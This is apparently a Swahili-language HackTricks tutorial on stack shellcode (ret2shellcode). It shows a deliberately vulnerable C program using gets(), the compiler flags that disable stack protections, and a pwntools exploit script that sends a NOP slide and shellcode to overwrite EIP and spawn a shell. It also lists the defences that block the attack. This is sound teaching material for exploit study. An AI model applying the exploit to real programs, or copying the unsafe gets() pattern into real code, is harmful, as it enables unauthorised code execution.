 # Msimbo wa Stack Shellcode

<details>

<summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kuhack kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Taarifa Msingi

**Msimbo wa stack shellcode** ni mbinu inayotumiwa katika uchunguzi wa binary ambapo muhusika anaandika msimbo wa shell kwenye stack ya programu yenye kasoro na kisha kurekebisha **Pointer ya Maelekezo (IP)** au **Pointer iliyozidishwa ya Maelekezo (EIP)** ili ielekee kwenye eneo la msimbo huu wa shell, ikisababisha utekelezaji wake. Hii ni njia ya kawaida inayotumiwa kupata ufikiaji usioruhusiwa au kutekeleza amri za kupindukia kwenye mfumo lengwa. Hapa kuna maelezo ya mchakato, pamoja na mfano rahisi wa C na jinsi unaweza kuandika shambulio linalofanana kutumia Python na **pwntools**.

### Mfano wa C: Programu yenye Kasoro

Tuanze na mfano rahisi wa programu ya C yenye kasoro:
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
char buffer[64];
gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
vulnerable_function();
printf("Returned safely\n");
return 0;
}
```
Programu hii ina mapungufu ya kujaza buffer kutokana na matumizi ya kazi ya `gets()`.

### Uundaji

Ili kuunda programu hii huku ukizima ulinzi mbalimbali (kwa lengo la kusimuliza mazingira yanayoweza kudhuriwa), unaweza kutumia amri ifuatayo:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-fno-stack-protector`: Inazuia ulinzi wa stak.
* `-z execstack`: Inafanya stak iweze kutekelezwa, ambayo ni muhimu kwa kutekeleza shellcode iliyohifadhiwa kwenye stak.
* `-no-pie`: Inazuia Utekelezaji wa Kitegemezi wa Nafasi, ikifanya iwe rahisi kutabiri anwani ya kumbukumbu ambapo shellcode yetu itakuwepo.
* `-m32`: Inakusanya programu kama utekelezaji wa biti 32, mara nyingi hutumiwa kwa urahisi katika maendeleo ya kutumia mwanya.

### Shambulio la Python kwa kutumia Pwntools

Hapa ndivyo unavyoweza kuandika shambulio kwa kutumia Python ukitumia **pwntools** kutekeleza shambulio la **ret2shellcode**.
```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```
Hii script inajenga mzigo unaounda **slaidi ya NOP**, **shellcode**, na kisha kubadilisha **EIP** na anwani inayoashiria kwenye slaidi ya NOP, ikisimamia shellcode kutekelezwa.

**Slaidi ya NOP** (`asm('nop')`) hutumiwa kuongeza nafasi kwamba utekelezaji uta "kusukuma" kuingia kwenye shellcode yetu bila kujali anwani sahihi. Badilisha hoja ya `p32()` kwa anwani ya kuanzia ya buffer yako pamoja na kufanya marekebisho ili kutua kwenye slaidi ya NOP.

## Kinga

* [**ASLR**](../common-binary-protections-and-bypasses/aslr/) **inapaswa kuzimwa** ili anwani iweze kutegemewa kote kwenye utekelezaji au anwani ambapo kazi itahifadhiwa haitakuwa daima sawa na utahitaji kuvuja fulani ili kugundua wapi kazi ya ushindi imehifadhiwa.
* [**Stack Canaries**](../common-binary-protections-and-bypasses/stack-canaries/) pia inapaswa kuzimwa au anwani iliyoharibiwa ya kurudi kwa EIP haitafuatwa kamwe.
* [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md) kinga ya **stack** ingezuia utekelezaji wa shellcode ndani ya stack kwa sababu eneo hilo halitakuwa la kutekelezeka.

## Mifano na Marejeo Mengine

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
* [https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html)
* 64bit, ASLR na kuvuja kwa anwani ya stack, andika shellcode na ruka kwenda kwake
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html)
* 32 bit, ASLR na kuvuja kwa stack, andika shellcode na ruka kwenda kwake
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html)
* 32 bit, ASLR na kuvuja kwa stack, kulinganisha kuzuia wito kwa exit(), badilisha variable na thamani na andika shellcode na ruka kwenda kwake

<details>

<summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kuhack kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
